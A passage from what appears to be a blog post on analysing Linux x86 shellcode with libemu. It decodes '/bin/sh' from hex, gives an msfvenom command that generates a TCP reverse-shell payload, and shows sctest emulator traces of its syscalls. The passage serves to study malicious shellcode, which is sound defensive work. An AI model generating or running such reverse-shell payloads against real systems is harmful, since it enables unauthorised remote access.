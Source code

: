 {%highlight python%}
>>> "68732f2f".decode("hex")
'hs//'
>>> "6e69622f".decode("hex")
'nib/'
{%endhighlight%}

Then the chain of argument for execve() is built, with pointers to memory
region storing the command to be executed and then the lastest int 0x80 it has
been called.

## libemu in action on linux/x86/reverse_shell

We start creating a RAW shellcode for a TCP reverse shell shellcode.

> msfvenom -p linux/x86/shell_reverse_tcp -f raw -a x86 --platform linux -o reverse_shell.raw

Using the raw shellcode, I'll call sctest in order to analyze emulated output.

{%highlight sh%}

$ cat reverse_shell.raw| sctest -Ss 100000

verbose = 0
int socket(int domain=2, int type=1, int protocol=0);
int dup2(int oldfd=14, int newfd=2);
int dup2(int oldfd=14, int newfd=1);
int dup2(int oldfd=14, int newfd=0);
connect
execve
int execve (const char *dateiname=00416fa6={//bin/sh}, const char * argv[], const char *envp[]);
cpu error error accessing 0x00000004 not mapped

stepcount 42
{%endhighlight%}

Just from bare sctest output, we can argue this shellcode is something related
to networking. It tells a story about a socket, a connect somewhere,
duplicating standard input, output and error on a file descriptor and then
executing "/bin/sh".

Let's add a bit more of verbosity.

{%highlight sh%}
cat reverse_shell.raw| sctest -Ss 100000 -vvv 

verbose = 3
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417000
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: 
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417000
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: 
[emu 0x0x53e1f0 debug ] 31DB                            xor ebx,ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417002
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF ZF 
[emu 0x0x53e1f0 debug ] F7E3                            mul ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417004
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x53e1f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF ZF 
[emu 0x0x53e1f0 debug ] 53                              push ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417005
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000